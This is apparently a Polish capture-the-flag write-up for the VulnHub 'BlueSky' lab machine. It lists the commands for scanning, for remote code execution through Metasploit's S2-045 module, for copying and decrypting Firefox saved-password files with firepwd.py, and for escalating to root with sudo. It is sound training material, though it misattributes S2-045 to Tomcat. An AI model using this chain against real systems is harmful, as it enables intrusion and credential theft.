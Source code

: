 # **CTF - BlueSky**

**Autor**: adi7312

**Poziom trudności**: łatwy

**Link do maszynki**: [BlueSky](https://www.vulnhub.com/entry/bluesky-1,623/)


## **Skanowanie sieci**

W celu poznania adresu IP podatnej maszyny wpisujemy polecenie:

    netdiscover -r 192.168.138.0/24

![](p/1.png)

Adres IP to 192.168.138.137

## **Skanowanie portów, usług i systemu operacyjnego**

W celu przeprowadzenia skanowania wpisujemy poniższe polecenie

    nmap -sV -O -Pn 192.168.138.137


![](p/2.png)


Host ma 2 otwarte porty 22 (ssh) i 8080 (http) i działa na systemie operacyjnym Linux w wersji 3.2-4.9. Będziemy przyglądać się portowi 8080, po wejściu na stronę http://192.168.138.137:8080/ nie zobaczymy nic ciekawego. Po wygooglowaniu wersji Apache Tomcat dowiadujemy się że dana wersja jest dosyć podatna - między innymi na *Remote Code Execution*. Przeprowadziłem dodatkowo skanowanie OpenVasem i dokładny kod podatności związanej z Apache Tomact to S2-045.

## **Faza eksploitacji (metasploit)**

Uruchamiamy *metasploit* i wyszkujemy nasza podatność:

    search S2-045

![](p/3.png)

Wybieramy oczywiście tę jedyną opcję -> używamy polecenia `use 0`. Następnie sprawdzamy `options` i widzimy że musimy podać jeszcze RHOSTS, czyli IP atakowanej maszyny, czyli wpisujemy `set RHOSTS 192.168.138.137`. Uruchamiamy naszego exploita poleceniem `run` lub `exploit`. Otrzymaliśmy sesję *meterpretera*, jednak na wiele on nam sie nie przyda więc wywołujemy powłokę *shell* poleceniem `shell`. Taka opcja też raczej średnio nam odpowiada, więc wywołamy jeszcze *bash'a* robimy to poleceniem:

    /bin/bash -i

## **Faza posteksploitacyjna + eskalacja uprawnień**

Jesteśmy teraz na zaatakowanej maszynie! Po wpisaniu poleceń `ls` możemy zobaczyć plik *user.txt* z pierwszą flagą. Teraz pozostało jedynie zdobyć ostatnią flagę *roota*. Wypisujemy sobie co możemy zrobić przy pomocy *sudo* jednak nic nam nie pokazuje się, więc szukamy dalej. Po wpisaniu polecenia `ls -la` widzimy ciekawy katalog *.mozilla* wchodzimy w niego, po przeszukaniu go znajdujemy pliki *key4.db*, *logins.json*. Dzięki tym plikom będzie mogli poznać hasło naszego użytkownika, pobieramy więc oba pliki na naszą maszyną atakującą, robimy to w następujący sposób: na podatnej maszynie uruchamiamy przy pomocy pythona prosty serwer http, wpisujemy polecenie:

    python3 -m http.server

Na maszynie atakującej wpisujemy polecenia:

    wget http://192.168.138.137:8000/key4.db
    wget http://192.168.138.137:8000/logins.json

Następnie na maszynie atakującej będziemy korzystać z narzędzia *firepwd.py* możemy je pobrać z GitHuba ważne jest aby zainstalować również wymagane moduły - więcej informacji można znaleźć w repozytorium. Teraz w tym samym miejscu gdzie są pliki key4.db, logins.json oraz firepwd.py uruchamiamy polecenie:

    python3 firepwd.py


![](p/4.png)


Teraz łączymy się przez ssh z naszym podatnym hostem oraz podajemy powyższe hasło:

    ssh minhtuan@192.168.138.137

Jesteśmy teraz na podantym hoście, wpisujemy polecenie:

    sudo -l


Okazuje się że każde polecenie możemy wykonać przy pomocy *sudo*, aby zdobyć *roota* wpisujemy po prostu:

    sudo su

Otrzymujemy *roota*, wpisujemy `cd /root; ls` i widzimy że znajduje się tam ostatnia flaga - poraz ostatni wpisujemy polecenie `cat root.txt`.

![](p/5.png)


